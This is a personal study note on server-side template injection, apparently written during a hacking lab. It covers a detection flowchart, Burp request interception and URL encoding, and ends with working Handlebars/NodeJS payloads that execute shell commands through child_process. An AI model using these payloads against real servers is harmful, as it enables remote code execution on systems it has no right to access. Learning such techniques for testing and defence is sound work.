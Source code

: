 # SSTIs - Server-side template injection
﷽
* Basically, SSTIs happen because websites use templates. The variables passed through to these templates may be un-sanitised and therefore, we can run our own malicious code on machines.
## Detection
# Template Injection Detection Flow (+ve/-ve)

Start with `${7*7}` or `{{7*7}}` and follow the result-based paths.

                            +-----------+
                            | ${7*7}    |  (+ve)
                            +-----------+
                             /         \
                            /           \
                           /             \
                          v               v
                +----------------+   +----------------+
                | a{*comment*}b  |   | {{7*7}}        |
                |     (+ve)      |   |     (-ve)      |
                +----------------+   +----------------+
                        |                   |
             +----------+          +--------+--------+
             |                     |                 |
             v                     v                 v
       +------------+       +----------------+   +----------------+
       | Smarty     |       | {{7*'7'}}      |   | Not vulnerable |
       |  (+ve)     |       |    (+ve)       |   |     (-ve)      |
       +------------+       +----------------+   +----------------+
                                 /       \
                                /         \
                               v           v
                        +-----------+ +-----------+
                        | Jinja2    | | Twig      |
                        |  (+ve)    | |  (+ve)    |
                        +-----------+ +-----------+

From a{*comment*}b path:
    |
    v
+------------------------+
| ${"z".join("ab")}      |  (-ve)
+------------------------+
         |
     +---+---+
     |       |
     v       v
 +--------+ +---------+
 | Mako   | | Unknown |
 | (+ve)  | | (-ve)   |
 +--------+ +---------+

* This flowchart can be used to determine the template that is used.

## Exploitation

* Using BurpSuite FoxyProxy, we can intercept a `POST` request and modify it to include a custom malicious payload (In my case rn, a RCE.)
  * Note, use `CMD + R ` to send packets.

### Payloads

* This [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejsl) article shows different templates' and their exploits.

* For example, in the case of Handlebars (**NodeJS**),
  * Focus on the line `{{this.push "return require('child_process').exec('whoami');"}}`, which instructs the server to run the command `whoami`

### URL Encoding

* In a URL, most characters aren't allowed to be used. We can only send characters from the 128 ASCII Character set.
* Reserved characters that don't belong in this set must be encoded.
* For example, `&` becomes `%26`

##### ***How to encode:***
  * Paste the payload into the "`Decoder`" tab of Burp and select `Encode as` > `URL`.

* Copy the URL-encoded payload and paste it into a SSTI-vulnerable field; in my case the `email` field.

### Troubleshooting (specific to NodeJS)

```
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return process;"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}
```

* That's it fixed as `require()` isn't global defined and doesn't work lol

Nvm:
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return
process.mainModule.require('child_process').execSync('whoami');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}


there we go

